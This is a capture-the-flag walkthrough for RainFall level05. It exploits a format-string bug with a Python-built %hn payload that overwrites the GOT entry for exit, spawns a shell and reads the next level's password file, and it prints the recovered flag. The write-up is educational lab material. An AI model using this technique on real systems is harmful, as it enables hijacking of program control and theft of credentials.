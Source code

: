 # Level 05 Walkthrough

## Binary analysis

The function `n()` reads user input and prints it with `printf`, then calls `exit(1)`. The function `o()` spawns a shell with `system("/bin/sh")` and exits. The goal is to overwrite the GOT (global offset table) entry for `exit` with the address of `o()`, so that when `exit` is called, it jumps to `o()` instead.

Relevant code:
```
080484a4    void o() __noreturn
080484b1        system(line: "/bin/sh")
080484bd        _exit(status: 1)

080484c2    void n() __noreturn
080484e5        char var_20c[0x208]
080484e5        fgets(buf: &var_20c, n: 0x200, fp: __bss_start)
080484f3        printf(format: &var_20c)
080484ff        exit(status: 1)

08048504    int32_t main(int32_t argc, char** argv, char** envp)
0804850a        n()
```

```
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```
GOT address for `exit`: 0x08049838
Address of `o()`: 0x080484a4

## Exploitation

We use a format string payload to overwrite the GOT entry for `exit` with the address of `o()` using `%hn`.

Python script to generate the payload:
```python
import struct

address = 0x08049838
value_high = 0x0804
value_low = 0x84a4
offset = 4

payload = struct.pack("<I", address + 2)
payload += struct.pack("<I", address)

padding_high = value_high - 8
payload += f"%{padding_high}x".encode('ascii')
payload += f"%{offset}$hn".encode('ascii')

offset += 1
padding_low = value_low - padding_high - 8
payload += f"%{padding_low}x".encode('ascii')
payload += f"%{offset}$hn".encode('ascii')

with open('payload.txt', 'wb') as f:
    f.write(payload)
```

## Commands used

```
cat payload.txt - | ./level5
ls
cat /home/user/level6/.pass
```

## Result

After running the exploit, we get a shell as level6 and can read the password:

```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
